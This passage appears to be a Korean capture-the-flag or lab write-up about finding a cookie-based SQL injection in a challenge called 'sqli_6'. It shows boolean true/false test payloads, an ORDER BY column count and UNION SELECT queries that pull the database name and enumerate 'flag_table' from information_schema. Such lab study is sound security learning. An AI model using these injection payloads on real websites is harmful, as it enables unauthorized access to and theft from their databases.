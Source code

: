 ![Injection 시도 결과](/assets/web-screenshots/sqli-point/sqli_6_injection.png)

| 쿠키 값               | 결과                    | 의미              |
| ------------------ | --------------------- | ---------------- |
| `1111' and '1'='1` | `Nothing Here...` 표시됨 | 조건이 참 |
| `1111' and '1'='2` | `Nothing Here...` 사라짐 | 조건이 거짓   |

이로써 해당 포인트에서 **SQL Injection이 가능함을 확인**할 수 있었다.

위 Injection 포인트를 기반으로, `ORDER BY` 문을 활용하여 해당 쿼리의 컬럼 개수를 확인하였다.

```sql
1111' order by 1 #
```

- **컬럼 개수: 1개**

```sql
' union select database() #
```

> **데이터베이스 이름: `sqli_6`**

데이터베이스 이름을 식별했으므로, 이제 이를 기반으로 **테이블명, 컬럼명, 플래그 값**까지 순차적으로 추출해보겠다.

```sql
' union select table_name from information_schema.tables where table_schema='sqli_6' limit 1,1 #
```

> **테이블 이름: `flag_table`**
